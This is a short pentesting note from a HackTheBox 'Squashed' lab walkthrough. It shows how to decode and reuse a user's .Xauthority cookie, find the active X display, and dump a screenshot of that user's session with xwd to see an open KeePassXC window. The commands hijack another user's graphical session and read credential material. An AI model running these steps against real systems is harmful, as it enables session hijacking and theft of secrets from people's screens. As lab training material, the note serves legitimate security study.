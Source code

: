 ```yaml
---
description: >-
  Pentesting X11X . Window System (X) is a versatile windowing system present on
  UNIX-based operating systems.
---
```


# Screenshot capturing

### X11

X is a portable, network window system for managing windowed GUI's. When paired with a display manager, it servers as a GUI which can run programs which require a GUI to function properly.

{% hint style="info" %}
The presence of **.Xauthority** and **.xession** files indicate a display could be configured. A .Xauthority file is used to save credentials as cookies used by xauth when authenitcating X sessions. The cookie is used to authenticate the connections to that specific display.
{% endhint %}

This vulnerbality can be found in: [https://app.hackthebox.com/machines/Squashed](https://app.hackthebox.com/machines/Squashed)

### Reading the .Xauthority cookie

```bash
# Read file
$ cat /mnt/.Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABCSegJckVyw7fOCjfGE9Aap

# Decode and save in /tmp
echo AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABCSegJckVyw7fOCjfGE9Aap | base64 -d > /tmp/.Xauthority
```

### Setting the cookie

```bash
# Set
export XAUTHORITY=/tmp/.Xauthority
```

{% hint style="info" %}
The command `export XAUTHORITY=/tmp/.Xauthority` sets the environment variable `XAUTHORITY` to the value `/tmp/.Xauthority. Environment variables are dynamic values and p`rovide a way to store and retrieve configuration settings, paths to files or directories, or other information that can be used to customize the behavior of applications.
{% endhint %}

Using this cookie we now have access to a User's session. We can use w to find out which display is used by the user.&#x20;

```bash
alex@squashed:/tmp$ w
 16:14:13 up  4:02,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               12:12    4:02m 16.33s  0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Using the cookie

```bash
# Find more
xdpyinfo -display :0
```

With xwininfo we find active windows.

```bash
xwininfo -root -tree -display :0
```

<figure><img src="../.gitbook/assets/image (80).png" alt=""><figcaption><p>In this case the keepassxc is what we want to see.</p></figcaption></figure>

It shows :0 is the display used. Using the xwd command we dump the image of a window. xwd = X Window dump.

```bash
# Dump image
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```

* -root           Main root window.
* -screen      Send GetImage request to root window
* -silent        No output messages or sounds
* -display     Display used

### The screenshot

```bash
# Convert the screenshot to png
convert screen.xwd screen.png
```

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>
